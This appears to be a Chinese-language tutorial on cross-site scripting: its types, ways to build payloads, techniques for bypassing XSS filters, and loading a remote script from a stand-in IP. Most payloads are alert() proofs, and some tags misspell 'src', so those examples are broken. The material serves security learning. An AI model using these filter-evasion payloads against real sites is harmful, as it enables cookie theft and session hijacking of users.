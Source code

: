 #### xss  漏洞

​	微博、留言板、聊天室等收集用户输入的地方，都有可能被注入xss 代码，都存在遭受xss的风险。

#### xss的危害

* 盗取各种用户账号。
* 窃取用户Cookie资料，冒充用户身份进入网站。
* 劫持用户会话，执行任意操作。
* 刷流量，执行弹窗广告。
* 传播蠕虫病毒，等等

#### xss 漏洞的验证

​	我们可以用一段简单的代码，验证和检测漏洞的存在。

**常用命令：** 

~~~js
<script>alert(/xss/)</script>	# 常用	弹窗操作
<script>confirm('xss')</script>
<script>prompt('xss')</script>
~~~

#### XSS 的分类

​	xss 漏洞大概可以分为三大类：反射型xss、存储型xss、DOM型xss

##### 反射型XSS

​	反射型XSS 是非持久性、参数型的跨站脚本。在web代码中应用的参数（变量）中。

在搜索框中，提交`<script>alert(/xss/)</script>`，点击搜索，即可触发反射型xss。

##### **存储型XSS**

​	存储型xss 是持久型跨站脚本，持久性体现在xss，代码不是在参数（变量）中，而是写进数据库或文件

##### **DOM XSS** 

​	DOM XSS 比较特殊。通过修改网页的DOM数，浏览器重新渲染页面。源代码没改变。 

#### XSS 的构造

**利用`<>`构造 HTML 标签和`<script>` 标签。**

&ensp; 在测试页面提交参数`<h1 style=color:red> ` 一类代码。

**伪协议** 

&ensp; 使用 `javascript` 伪协议的方法构造 XSS

例1、：`<a href="javascript:alert(/xss/)">touch sta</a>` 然后点击超链接，即可触发 XSS

例2、`<img src="javascript:alert('xss')">` 使用 img 标签的伪协议（新版浏览器不支持）

**产生自己的事件** 

&ensp; **事件驱动：** 是一种比较经典的编程思想。（比如鼠标移动，键盘输入等），JS 可以对这些事件进行响应。所以我们可以通过事件触发JS函数，触发XSS

例1：`<img src='./sat.jpg' onmouseover="alert(/xss/)">` 这个标签会引入一张图片，当鼠标悬停在图片上的时候，会触发XSS代码。

例2：单行文本框的键盘点击事件，`<input type="text" onkeydown="alert(/XSS/)">`,当点击键盘任意按键，就会触发XSS代码。

#### XSS 的变形

我们可以构造的 XSS 代码进行各种变形，来绕过 XSS 过滤器的检测。



* **大小写转换**

可以将payload进行大小写转化。

**例如：**

~~~html
<Img sRc='#' Onerror="alert(/XSS/)">
<a hREf="javaScript:alert(/XSS/)"> hello </a>
~~~



* **引号的使用**

HTML 语言中对引号的使用不敏感，可以通过引号绕过过滤器。

**例如：**

~~~html
<img src="#" onmouseover="alert(/XSS/)">
<img src='#' onmouseover='alert(/XSS/)'>
<img src=# onmouseover=alert(/XSS/)>
~~~



* **用 / 代替空格 **

可以使用左斜线代替空格。

**例如：**

~~~html
<img/scr='#'/onmouseover='alert(/XSS/)'>
~~~



* **回车**

我们可以在一些位置添加 Tab （水平制表符）和回车符，绕过关键字检测。

~~~html
<Img/sRc='#'/onmouseover	='alert(/XSS/)'>
<img/scr='#'/onmouseover='alert(/XSS/)'>
~~~



* **对标签属性值进行转码。** 

可以对标签属性值进行转码，绕过过滤。

| 字母 | ASCII码 | 十进制编码 | 十六进制编码 |
| ---- | ------- | ---------- | ------------ |
| a    | 97      | &#97       | &#x61        |
| e    | 101     | &#101      | &#x65        |

~~~html
<A href="j&#97;v&#x61;script:alert(/XSS/)"> hello PHP </a>
~~~



* 可以将以下字符插入到头部位置。

| Tab  | 换行 | 回车 |
| ---- | ---- | ---- |
| &#9  | &#10 | &#13 |



* 可以将一下字符插入到头部位置

| SOH  | STX  |
| ---- | ---- |
| &#01 | &#02 |

~~~html
<A hREF="&#01;j&#97;v&#97;s&#x65;c&#10;r&#13;ipt:alert(/XSS/)"> hello PHP </a>
~~~



* 拆分跨站

~~~html
<script>z='alert'</script>		# 定义变量
<script>d=z+'(/XSS/)'</script>		# 将变量进行拼接
<script>eval(d)</script>
~~~



* 双写绕过

~~~html
<scr<script>ipt></script>
~~~



#### CSS 变形



#### Shellcode 的调用

&ensp; Shellcode 就是在利用漏洞所执行的代码。



###### 远程调用JS

&ensp; 可以将JS代码单独放在一个JS文件中，然后通过http 协议远程加载该脚本。

~~~html
<script scr="http://192.168.123.123/XSS/text/demo.js"></script>
~~~

代码内容：`alert('XSS');`



**windows.location.hash**

&ensp; 我们可以使用JS中windows.location.hash 方法获取浏览器URL地址栏的XSS代码。

&ensp; windows.location.hash 会获取URL中 # 后面的内容，例如`http://127.0.0.1/123.php#hello` windows.location.hash的值就是 hello

构造代码绕过过滤`?submit=submit&xsscode=<script>eval(location.hash.substr(1))</script>#alert(/XSS/)` 

###### XSS Downloader

&ensp; XSS 下载器就是 XSS 代码写到网页中，然后通过AJAX技术，取得页面的XSS代码。























